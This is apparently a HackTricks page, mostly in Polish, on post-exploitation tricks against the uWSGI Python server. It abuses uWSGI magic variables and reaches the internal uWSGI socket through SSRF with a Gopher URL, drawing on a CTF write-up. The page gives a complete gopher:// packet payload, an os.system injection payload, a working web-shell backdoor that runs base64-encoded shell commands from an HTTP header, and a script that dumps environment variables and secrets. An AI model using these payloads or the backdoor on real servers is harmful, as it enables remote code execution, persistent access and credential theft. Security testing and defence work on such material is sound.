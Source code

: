 # WSGI Post-Exploitation Tricks

{{#include ../../banners/hacktricks-training.md}}

## WSGI Przegląd

Web Server Gateway Interface (WSGI) to specyfikacja opisująca, jak serwer WWW komunikuje się z aplikacjami webowymi oraz jak aplikacje webowe mogą być łańcuszkowane, aby przetworzyć jedno żądanie. uWSGI jest jednym z najpopularniejszych serwerów WSGI, często używany do serwowania aplikacji webowych w Pythonie.

## Eksploatacja magicznych zmiennych uWSGI

uWSGI udostępnia specjalne "magic variables", które mogą być użyte do dynamicznej konfiguracji zachowania serwera. Zmienne te można ustawić poprzez nagłówki HTTP i mogą prowadzić do poważnych luk w zabezpieczeniach, jeśli nie są prawidłowo walidowane.

### Kluczowe zmienne podatne na eksploatację

#### `UWSGI_FILE` - Wykonanie dowolnego pliku
```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
Ta zmienna umożliwia ładowanie i wykonywanie dowolnych plików Pythona jako aplikacji WSGI. Jeśli atakujący może kontrolować ten parametr, może osiągnąć Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Ładowanie skryptu
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Wczytuje określony skrypt jako nową aplikację. W połączeniu z file upload lub write capabilities, może to prowadzić do RCE.

#### `UWSGI_MODULE` and `UWSGI_CALLABLE` - Dynamic Module Loading
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
Te parametry pozwalają na ładowanie dowolnych modułów Pythona i wywoływanie w nich konkretnych funkcji.

#### `UWSGI_SETENV` - Manipulacja zmiennymi środowiskowymi
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Może służyć do modyfikowania environment variables, potencjalnie wpływając na zachowanie aplikacji lub powodując ładowanie złośliwej konfiguracji.

#### `UWSGI_PYHOME` - Python Environment Manipulation
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Zmienia wirtualne środowisko Pythona, potencjalnie ładując złośliwe pakiety lub inne interpretery Pythona.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Zmienia katalog roboczy przed przetwarzaniem żądań, co może zostać wykorzystane do ataków typu path traversal.

## SSRF + Gopher do

### The Attack Vector

Gdy uWSGI jest dostępny przez SSRF (Server-Side Request Forgery), atakujący mogą wchodzić w interakcję z wewnętrznym socketem uWSGI, aby wykorzystać zmienne magiczne. Jest to szczególnie niebezpieczne, gdy:

1. Aplikacja ma podatności SSRF
2. uWSGI działa na wewnętrznym porcie/socket
3. Aplikacja nie waliduje poprawnie zmiennych magicznych

uWSGI jest dostępny z powodu SSRF, ponieważ plik konfiguracyjny `uwsgi.ini` zawiera: `socket = 127.0.0.1:5000`, co sprawia, że jest dostępny z aplikacji webowej poprzez SSRF.

### Exploitation Example

#### Krok 1: Create Malicious Payload

Najpierw wstrzyknij kod Python do pliku dostępnego dla serwera (zapis pliku wewnątrz serwera, rozszerzenie pliku nie ma znaczenia):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```
#### Krok 2: Przygotuj żądanie protokołu uWSGI
Użyj protokołu Gopher, aby wysłać surowe pakiety uWSGI:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```
This payload:
- Nawiązuje połączenie z uWSGI na porcie 5000
- Ustawia `UWSGI_FILE`, tak by wskazywał na złośliwy plik
- Zmusi uWSGI do załadowania i wykonania kodu Pythona

### uWSGI Protocol Structure

The uWSGI protocol uses a binary format where:
- Zmienne są kodowane jako ciągi poprzedzone informacją o długości
- Każda zmienna ma: `[name_length][name][value_length][value]`
- Pakiet zaczyna się nagłówkiem zawierającym całkowity rozmiar

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
cmd = environ.get('HTTP_X_CMD', '')
if cmd:
result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
else:
response = "Backdoor active"

start_response('200 OK', [('Content-Type', 'text/plain')])
return [response.encode()]
```
Następnie użyj `UWSGI_FILE`, aby załadować ten backdoor:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```
#### Persistence oparta na zmiennych środowiskowych
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```
### 2. Ujawnianie informacji

#### Zrzut zmiennych środowiskowych
```python
# env_dump.py
import os
import json

def application(environ, start_response):
env_data = {
'os_environ': dict(os.environ),
'wsgi_environ': dict(environ)
}

start_response('200 OK', [('Content-Type', 'application/json')])
return [json.dumps(env_data, indent=2).encode()]
```
#### Dostęp do systemu plików
Użyj `UWSGI_CHDIR` w połączeniu z serwowaniem plików, aby uzyskać dostęp do wrażliwych plików:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```
### 3. Privilege Escalation

#### Socket Manipulation
Jeśli uWSGI działa z podwyższonymi uprawnieniami, attackers mogą manipulować socket permissions:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```
#### Nadpisanie konfiguracji
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```
## Źródła

- [Dokumentacja zmiennych magicznych uWSGI](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [Opis rozwiązania IOI SaveData CTF](https://bugculture.io/writeups/web/ioi-savedata)
- [Najlepsze praktyki bezpieczeństwa uWSGI](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

{{#include ../../banners/hacktricks-training.md}}

